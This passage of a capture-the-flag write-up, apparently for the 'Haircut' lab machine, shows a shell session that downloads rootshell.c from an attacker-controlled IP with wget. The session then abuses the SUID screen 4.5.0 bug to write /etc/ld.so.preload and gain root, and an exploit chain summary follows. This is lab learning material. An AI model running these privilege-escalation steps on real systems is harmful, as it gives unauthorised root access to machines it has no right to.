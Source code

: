 ```console
www-data@haircut:/tmp$ wget http://10.10.14.54:8888/rootshell.c
wget http://10.10.14.54:8888/rootshell.c
--2024-01-09 21:42:48--  http://10.10.14.54:8888/rootshell.c
Connecting to 10.10.14.54:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 185 [text/x-csrc]
Saving to: 'rootshell.c'

rootshell.c         100%[===================>]     185  --.-KB/s    in 0s

2024-01-09 21:42:48 (34.7 MB/s) - 'rootshell.c' saved [185/185]

www-data@haircut:/tmp$ gcc rootshell.c -o rootshell
gcc rootshell.c -o rootshell
rootshell.c: In function 'main':
rootshell.c:4:5: warning: implicit declaration of function 'setuid' [-Wimplicit-function-declaration]
     setuid(0);
     ^
rootshell.c:5:5: warning: implicit declaration of function 'setgid' [-Wimplicit-function-declaration]
     setgid(0);
     ^
rootshell.c:6:5: warning: implicit declaration of function 'seteuid' [-Wimplicit-function-declaration]
     seteuid(0);
     ^
rootshell.c:7:5: warning: implicit declaration of function 'setegid' [-Wimplicit-function-declaration]
     setegid(0);
     ^
rootshell.c:8:5: warning: implicit declaration of function 'execvp' [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
```

- add a new line into /etc/ld.so.preload for rootshell usage

```console
www-data@haircut:/tmp$ cd /etc
cd /etc
www-data@haircut:/etc$ umask 000
umask 000
www-data@haircut:/etc$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
<en -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
www-data@haircut:/etc$ screen -ls
screen -ls
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

www-data@haircut:/etc$ /tmp/rootshell
/tmp/rootshell
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

## Exploit Chain

port recon -> web path recon -> command injection -> user shell -> SUID discover -> screen 4.5.0 -> exp -> root shell
